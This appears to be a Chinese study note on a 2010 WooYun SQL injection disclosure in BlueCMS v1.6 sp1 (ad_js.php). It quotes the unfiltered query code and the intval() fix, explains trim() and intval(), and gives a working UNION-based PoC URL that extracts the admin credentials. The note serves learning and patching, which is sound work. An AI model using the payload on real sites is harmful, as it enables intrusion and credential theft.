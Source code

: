 BlueCMS v1.6 sp1 ad_js.php SQL注入漏
===

## 漏洞信息

下面的漏洞信息表格引用自[https://wooyun.shuimugan.com/](https://wooyun.shuimugan.com/bug/view?bug_no=141).

| 类型 | 内容 | 
|---|---|
| 编号 | 141 |
| Url | [http://www.wooyun.org/bug.php?action=view&id=141](http://www.wooyun.org/bug.php?action=view&id=141) |
| 漏洞状态 | 未联系到厂商或者厂商积极忽略 |
| 漏洞标题 | BlueCMS v1.6 sp1 ad_js.php SQL注入漏洞 |
| 漏洞类型 | [SQL注射漏洞](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bbug_type%5D=SQL%E6%B3%A8%E5%B0%84%E6%BC%8F%E6%B4%9E) |
| 厂商 | [BlueCMS](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bvendor%5D=BlueCMS) |
| 白帽子 | [CnCxzSec(衰仔)](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bauthor%5D=CnCxzSec%28%E8%A1%B0%E4%BB%94%29) |
| 提交日期 | 2010-07-30 19:49:00 |
| 公开日期 | 2010-07-30 21:52:00 |
| 修复时间 | (not set) |
| 确认时间 | 0000-00-00 00:00:00 |
| Confirm Spend | -1 |
| 漏洞标签 | php+数字类型注射 注射技巧 BlueCMS |
| 关注数 | 0 |
| 收藏数 | 0 |
| 白帽评级 | 高 |
| 白帽自评rank | 20 |
| 厂商评级 |  |
| 厂商评rank | 10 |
| 漏洞简介 | BlueCMS v1.6 sp1 某页面SQL注入漏洞 |
| 漏洞细节 | 缺陷文件：ad_js.php
| 漏洞成因 | 第12行: `$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';` 根目录下其他他文件都做了很好的过滤，对数字型变量几乎都用了intval()做限制，唯独漏了这个文件，居然只是用了trim()去除头尾空格。 第19行: `$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id); ` //直接代入查询。。汗。 | 
|POC | `view-source:http://localhost/cms/ad_js.php?ad_id=1%20and%201=2%20union%20select%201,2,3,4,5,concat(admin_name,0x7C0D0A,pwd),concat(admin_name,0x7C0D0A,pwd)%20from%20blue_admin%20where%20admin_id=1`|
| 修复方案 | `$ad_id = !empty($_GET['ad_id']) ? intval($_GET['ad_id']) : '';`  |
| 状态信息 | 2010-07-30： 积极联系厂商并且等待厂商认领中，细节不对外公开 2010-07-30: 厂商已经主动忽略漏洞，细节向公众公开 |
| 厂商回复 | (not set) |
| 回应信息 | 未能联系到厂商或者厂商积极拒绝漏洞Rank：10 (WooYun评价) |

## 笔记：

1. trim( )函数：移除字符串两侧的空白字符或其他预定义字符

### 语法

trim(_string_,_charlist_)

| 参数 | 描述 |
|---|---|
| _string_ | 必需。规定要检查的字符串。 |
| _charlist_ | 可选。规定从字符串中删除哪些字符。如果被省略，则移除以下所有字符 |

*   "\0" - NULL
*   "\t" - 制表符
*   "\n" - 换行
*   "\x0B" - 垂直制表符
*   "\r" - 回车
*   " " - 空格

2. intval()函数：获取变量的整数值

### 语法


intval ( mixed $var [, int $base = 10 ] )


通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。

| 参数 | 描述 |
|--|--|
| _var_ | 要转换成 integer 的数量值 |
| _base_  | 转化所使用的进制。|

> Note:
> 
> 如果 `base` 是 0，通过检测 `var` 的格式来决定使用的进制：
> 
> *   如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，
> *   如果字符串以 "0" 开始，使用 8 进制(octal)；否则，
> *   将使用 10 进制 (decimal)。


### 验证漏洞

`'`验证

![单引号判断](./%E5%8D%95%E5%BC%95%E5%8F%B7%E5%88%A4%E6%96%AD.png)

### 验证POC

访问POC

![验证POC](./%E9%AA%8C%E8%AF%81POC.png)

### 漏洞修复

trim()函数修改为intval()函数，重新访问POC

![修复](./%E4%BF%AE%E5%A4%8D.png)

### 其他漏洞



